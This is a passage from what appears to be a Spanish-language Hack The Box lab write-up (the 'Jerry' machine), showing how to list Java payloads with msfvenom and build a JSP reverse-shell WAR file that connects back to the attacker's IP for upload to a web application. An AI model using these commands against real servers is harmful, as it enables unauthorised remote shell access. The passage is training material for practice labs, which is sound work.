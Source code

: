 
<h2 id="BuscandoPay">Buscando y Configurando un Payload</h2>

Si bien antes usamos **Searchsploit** para buscar Exploits en la base de datos de Metasploit para usarlos, esta vez vamos a usar la herramienta **msfvenom** que nos ayuda a crear payloads maliciosos que podemos usar en cualquier lado, aquí le podemos indicar los mismos parámetros que en un Exploit del **Metasploit Framework** como el puerto y la IP de nosotros o de la víctima.

Ahora para buscar los Payloads debemos usar el siguiente comando, especificando que buscamos los tipos **Java**:
```bash
msfvenom -l payloads | grep java
    java/jsp_shell_bind_tcp                                            Listen for a connection and spawn a command shell
    java/jsp_shell_reverse_tcp                                         Connect back to attacker and spawn a command shell
    java/meterpreter/bind_tcp                                          Run a meterpreter server in Java. Listen for a connection
    java/meterpreter/reverse_http                                      Run a meterpreter server in Java. Tunnel communication over HTTP
    java/meterpreter/reverse_https                                     Run a meterpreter server in Java. Tunnel communication over HTTPS
    java/meterpreter/reverse_tcp                                       Run a meterpreter server in Java. Connect back stager
    java/shell/bind_tcp                                                Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Listen for a connection
    java/shell/reverse_tcp                                             Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Connect back stager
    java/shell_reverse_tcp                                             Connect back to attacker and spawn a command shel
```
Vamos a ocupar este Payload: **java/jsp_shell_reverse_tcp** que como su descripción nos dice, se va a conectar de la máquina victima hacia nosotros spawneando una Shell. Para usar el Exploit solamente debemos indicarle 3 cosillas:
* Nuestra IP con LHOST
* Un puerto con RHOST
* Que se guarde en archivo tipo war con -f war

Y ya solamente lo podemos guardar con un nombre en específico, yo lo llame **shell.war**:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f war -o shell.war
Payload size: 1096 bytes
Final size of war file: 1096 bytes
Saved as: shell.war
```
Con esto ya nos creó un archivo .war que es lo que admite la aplicación web, ahora debemos subirlo con la opción browser:

![](/assets/images/htb-writeup-jerry/Captura4.png)
